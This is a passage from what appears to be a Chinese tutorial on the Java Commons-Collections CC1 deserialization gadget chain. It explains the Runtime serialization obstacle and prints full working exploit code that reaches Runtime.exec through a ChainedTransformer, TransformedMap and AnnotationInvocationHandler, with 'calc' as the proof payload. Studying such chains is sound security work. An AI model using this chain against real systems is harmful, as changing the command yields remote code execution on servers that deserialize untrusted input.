 但是还有个问题

![image.png](image16.png)

`Runtime`没实现序列化接口

这样的话只能找一个能调用`Runtime`的并且实现了序列化的类

但是`Class`类可以

最终的代码

```java
public void CC1() throws Exception {
        ChainedTransformer chainedTransformer = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}),
        });

        HashMap<Object, Object> objectObjectHashMap = new HashMap<>();
        objectObjectHashMap.put("value","1");
        Map<Object,Object> decorate = TransformedMap.decorate(objectObjectHashMap, null, chainedTransformer);

        Class<?> aClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = aClass.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object o = declaredConstructor.newInstance(Target.class, decorate);

        serializable(o);
        unserializable("ser.bin");
    }
```

效果如下

![image.png](image17.png)

## 图示
![image.png](image18.png)
![image.png](image19.png)
